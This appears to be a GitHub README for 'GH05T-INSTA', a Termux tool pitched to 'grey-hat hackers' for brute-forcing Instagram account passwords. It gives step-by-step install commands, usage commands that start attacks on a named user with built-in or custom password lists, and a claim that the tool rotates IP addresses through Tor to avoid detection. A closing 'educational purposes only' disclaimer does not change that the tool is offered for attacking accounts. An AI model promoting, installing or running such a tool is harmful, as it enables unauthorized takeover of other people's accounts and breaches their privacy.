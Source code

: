 <b>Wenn Sie ein Grey-Hat-Hacker sind, ist dies ein sehr nützliches Skript für Sie</b>

<i>TERMUX USERS  { No Root }</i>
<img src="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.img/The-Attack.jpeg" alt="bruteforce attack ">
<b>You can hack Instagram accounts with the help of this tool</b>
<br><b><del>PHISHING</del> BruteForce Attack</b>

<a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/OWN-Tool/README.md"><b>Create a gh05t tool for yourself</b></a>

<b><i>Why : GH05T-INSTA</i></b>

<i>Multiple attacks can be performed simultaneously</i>

<i>You can find your Instagram account password.</i>

<i>Hier führen wir mit Hilfe eines Pip-Pakets einen Brute-Force-Angriff auf das Instagram-Konto durch</i>

<i>Total Updates : 3</i>

<b>Please Install Ver : 3.1</b>

<i>Wenn Sie Version 1 installiert haben, können Sie Version 3 herunterladen, indem Sie diesen Befehl ausführen</i>

```
cd $HOME
```
```
rm -rf GH05T-INSTA
```
```
gh05t uninstall all
````

<b>Next run the below command ⏬</b>

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/GH05T-INSTA-VER.jpg" alt="gh05t-logo">

`Don't copy paste without credit.`

<b>Do you believe your Instagram account is secure?</b>
<li>Auto Attack</li>
<pre>
$ If you enter the username, it will attack itself


$ Once the password is received, a warning message will also appear

$ Your IP address will change automatically

@ Ihre IP-Adresse ändert sich automatisch

Tor network helps to change IP
</pre>

# Qualitäten

<b>Automatische Passworterkennung und Benachrichtigung  an  Sie { Automatic password detection  }
<br><br><b>Damit können Sie das Passwort leicht finden { With it, you can easily find the password }
<br><br><b>Password is updated and uploaded every three months</b>
#

<i>This tool is not ready, but you can use it</i>
{Update this tool after every three months}

<i>Package Installation 3.01</i>

```
pkg install git
```
```
pkg install python
```
```
pkg install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd $HOME
```
```
rm -rf GH05T-INSTA
```

<center>After</center>

```
gh05t
```

`
Let us know if you encounter any error while running the tool
`

<b>Report your problem</b>

<b>MY FIRST : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new/choose">ISSUES</a></b>

# After Try This Commands

<i>This tool will run if you type gh05t</i>

<em>We think the command line is more useful</em>

```
$ gh05t

{ After entering this command you will get an option for everything }
{ Nach Eingabe dieses Befehls erhalten Sie eine Option für alles }

$ gh05t --user username --pass 1

{ After running this command the brute force will start }
{ Nach Ausführung dieses Befehls wird die Brute Force gestartet }
(             How To Use            )
( gh05t --user mr_77778#8 --pass 2 )
( gh05t --user mr_fqake#@ --pass 3 )
( gh05t --user jdjza888#8 --pass 4 )
( gh05t --user gersman_9#6# --pass 6 )
( gh05t --user mr_77bd778#8 --pass 7 )
( gh05t --user ar_fake#@ --pass 8 )
( gh05t --user li888#8 --pass 9 )
( gh05t --user mtrman_9#6# --pass 10 )
( gh05t --user jr_77778#8 --pass 11 )
( gh05t --user ig_fake#@ --pass 12 )
( gh05t --user hsjza888#8 --pass 13 )
( gh05t --user gelian_9#6# --pass 14 )
( gh05t --user gehsghan_9#6# --pass 15 )
( gh05t --user jr7778#s8 --pass 16 )
( gh05t --user igahacke#@ --pass 17 )
( gh05t --user hsjd888#8 --pass 18 )
( gh05t --user gehdhan_9#6# --pass 19 )
( gh05t --user gehsgan_9#6# --pass 20 )
(     Total Password List 20        )

$ gh05t --user username --passadd Your-Pass

{ After running this command the brute force will start }
{ Nach Ausführung dieses Befehls wird die Brute Force gestartet }

(                       How To Use                        )
( gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt )
( gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt )
( gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
( gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt )
(                Enter your password location and name                   )

$ gh05t --help

{ Try this command for informatio okn about this tool }
{ Probieren Sie diesen Befehl aus, um Informationen zu diesem Tool zu erhalten }

$ gh05t --check

{ To reinstall deleted files (FPP) solution }
{ Um gelöschte Dateien neu zu installieren  (FPP) solution }

$ gh05t --update

{ Try this command and you will get new updates }
{ Probieren Sie diesen Befehl aus und Sie erhalten neue Updates }

$ gh05t --error

{ Run this command if you encounter errors while running this tool }
{ Führen Sie diesen Befehl aus, wenn beim Ausführen dieses Tools Fehler auftreten }

$ gh05t developer 

{ To contact the developer }
{ Um den Entwickler zu kontaktieren }

$ gh05t --cookies

{ After running this command you can see the username }
{ Nachdem Sie diesen Befehl ausgeführt haben, können Sie den Benutzernamen sehen }

$ gh05t uninstall all

{ Delete Gh05t }
{ Removes all packages related to gh05t }
{ Entfernt alle Pakete, die sich auf gh05t beziehen }

```

<i>It is intended to be released as our package 😁</i>

# Main Menu

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t-menu-.jpg">

<em>You can use it in two ways</em><br>
<br>$ just type : gh05t</b><br>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Password-list-gh05t.jpg" alt="menu">

<i>WORKING DEMO <a href="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t-attack.jpg">GH05T ATTACK</a></i>

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```


<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>
